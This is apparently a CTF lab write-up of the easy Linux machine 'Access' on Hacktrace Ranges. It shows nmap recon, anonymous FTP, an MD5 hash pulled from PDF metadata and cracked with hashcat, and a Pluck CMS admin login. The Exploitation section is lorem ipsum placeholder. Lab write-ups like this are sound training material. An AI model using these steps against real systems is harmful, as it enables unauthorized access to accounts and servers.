 ```yaml
---
title : 'Hacktrace-Ranges: Access [Write-up]'
date : 2024-05-20 18.25 +0700           #DD-MM-YY hour timezone (+7 GMT)
categories : [Hacktrace-Ranges, Offensive]
tags : [machine,pluck,cve-2020-29607,password cracking,wget]
# author: 1                             # for single entry
---
```


## Getting Started

![Desktop View](/assets/img/hacktrace/access/Access_machine.png){: .center }

This is my first machine in hacktrace ranges, but I've already completed a few machines on hackthebox, so I should be able to complete this machine. Here is the machine details:

**Machine: Access**  
**Level: Easy**  
**OS: Linux**  
**IP: 10.1.2.157**



## Recon and Initial Steps

I began with an nmap scan:   
```terminal
❯ sudo nmap -sS -sV -sC 10.1.2.157
Starting Nmap 7.93 ( https://nmap.org ) at 2024-05-20 01:30 WIB
Nmap scan report for 10.1.2.157
Host is up (0.38s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000      1998572 Apr 19 03:51 sienna_eborchure.pdf
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.18.201.15
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
| http-robots.txt: 2 disallowed entries 
|_/data/ /docs/
|_http-generator: pluck 4.7.13
| http-title: Vien'le - Vien'le
|_Requested resource was http://10.1.2.157/?file=vien-le
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.37 seconds
```
**Nmap Options**
- sS: Performs a TCP SYN scan
- sV: Enables service version detection
- sC: Enables the use of default scripts

**Key Findings**
- FTP port 21: vsftpd 3.0.3
- HTTP port 80: Apache httpd 2.4.59 ((Debian))

After doing nmap scan, i notice something interesting from FTP service. We can see here that anonymous ftp login is allowed and it's contains a pdf file

> ftp-anon: Anonymous FTP login allowed (FTP code 230)

That means i can access the ftp service using `anonymous` as username and password. But before that, i quickly check the webserver that running on port 80 `http://10.1.2.157/` and perform manual scanning

After observing the website for a while and scanning/searching some vuln, i haven't gotten the initial foothold yet. I also tried some LFI payload because i see that the website load a local file `http://10.1.2.157/?file=vien-le` but no luck :(


## Initial Foothold
I noticed the website using pluck-cms 4.7.13 and there is login.php page `http://10.1.2.157/login.php`. I quickly search on google for default creds and use it but it's incorrect, and also need to wait for few minutes after entering wrong password for 5 times.

![Desktop View](/assets/img/hacktrace/access/img1.png){: .center }

Searched for plunk 4.7.13 exploit using searchsploit but it need authentication

```terminal
❯ searchsploit pluck 4.7.13             
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title                                                                                                                       |  Path
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Pluck CMS 4.7.13 - File Upload Remote Code Execution (Authenticated)                                                                 | php/webapps/49909.py
------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Getting stuck, I stepped back and then tried to access ftp server using anonymous creds

```terminal
❯ ftp 10.1.2.157
Connected to 10.1.2.157.
220 (vsFTPd 3.0.3)
Name (10.1.2.157:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
❯ ftp> ls -lah
229 Entering Extended Passive Mode (|||47637|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        122          4096 Apr 19 03:52 .
drwxr-xr-x    2 0        122          4096 Apr 19 03:52 ..
-rw-r--r--    1 1000     1000      1998572 Apr 19 03:51 sienna_eborchure.pdf
226 Directory send OK.
❯ ftp> get sienna_eborchure.pdf
local: sienna_eborchure.pdf remote: sienna_eborchure.pdf
229 Entering Extended Passive Mode (|||45782|)
150 Opening BINARY mode data connection for sienna_eborchure.pdf (1998572 bytes).
100% |**************************************************************************************************************************|  1951 KiB  252.04 KiB/s    00:00 ETA
226 Transfer complete.
1998572 bytes received in 00:08 (240.81 KiB/s)
❯ ftp> exit
221 Goodbye.
```
I opened it and it was a normal brochure

![Desktop View](/assets/img/hacktrace/access/img2.png){: .center }

checked the metadata using exiftool

```terminal
❯ exiftool sienna_eborchure.pdf 
ExifTool Version Number         : 12.57
File Name                       : sienna_eborchure.pdf
Directory                       : .
File Size                       : 1999 kB
File Modification Date/Time     : 2024:04:19 10:51:52+07:00
File Access Date/Time           : 2024:05:21 02:46:46+07:00
File Inode Change Date/Time     : 2024:05:21 02:46:46+07:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.6
Linearized                      : No
Create Date                     : 2023:11:03 15:37:34-05:00
Modify Date                     : 2023:11:03 15:45:10-05:00
Has XFA                         : No
Language                        : en-US
XMP Toolkit                     : Image::ExifTool 12.57
Creator                         : your password is dcb76da384ae3028d6aa9b2ebcea01c9
Format                          : application/pdf
Producer                        : Adobe PDF Library 17.0
Trapped                         : False
Creator Tool                    : Adobe InDesign 19.0 (Macintosh)
Metadata Date                   : 2023:11:03 15:45:10-05:00
Derived From Document ID        : xmp.did:fb0632d3-6add-4b1a-b098-598e7a92fec5
Derived From Instance ID        : xmp.iid:eeff6700-f6c2-4d9e-978d-3266d2f18f41
Derived From Original Document ID: xmp.did:1550a558-fb22-481f-aacd-d74194ac9339
Derived From Rendition Class    : default
Document ID                     : xmp.id:acdd5a12-a4f7-48ec-9f41-b369a2ce03a0
History Action                  : converted
History Changed                 : /
History Parameters              : from application/x-indesign to application/pdf
History Software Agent          : Adobe InDesign 19.0 (Macintosh)
History When                    : 2023:11:03 15:37:34-05:00
Instance ID                     : uuid:d0e5e105-fcf6-474b-9773-f60431af9b81
Original Document ID            : xmp.did:1550a558-fb22-481f-aacd-d74194ac9339
Rendition Class                 : proof:pdf
Page Count                      : 22
```

And yes i got some progress, the metadata of `sienna_eborchure.pdf` contains a hashed password.

> dcb76da384ae3028d6aa9b2ebcea01c9

I ran hash-identifier to check the hash type,

```terminal
hash-identifier dcb76da384ae3028d6aa9b2ebcea01c9
```
the program identify MD5 for possible hashes. I saved the hashed password to pass.md5

```terminal
echo 'dcb76da384ae3028d6aa9b2ebcea01c9' > pass.md5 
```

Next step, i ran hashcat to crack the password

```terminal
hashcat -m 0 -a 0 pass.md5 /usr/share/wordlists/rockyou.txt
```
**Hashcat option**
- -m 0: To specifies the hash type (MD5)
- -a 0: To Specifies the attack mode (dictionary attack)

waiting... and then cracked!.

> dcb76da384ae3028d6aa9b2ebcea01c9:sayang

Using `sayang` as password to login at `http://10.1.2.157/login.php` resulted in succeed

![Desktop View](/assets/img/hacktrace/access/img3.png){: .center }


## Exploitation

Maecenas ullamcorper efficitur ligula, at venenatis justo gravida eget. Maecenas accumsan tincidunt nunc ac hendrerit. Morbi ipsum magna, efficitur non est eu, tristique pharetra erat. Nulla facilisi. In sodales eget risus ac lobortis. Ut eget accumsan lectus, non pharetra nunc. Quisque semper feugiat massa non laoreet. Ut a lorem ante. Duis viverra vel augue id commodo. Nullam ante turpis, lobortis ac laoreet at, blandit facilisis ante.

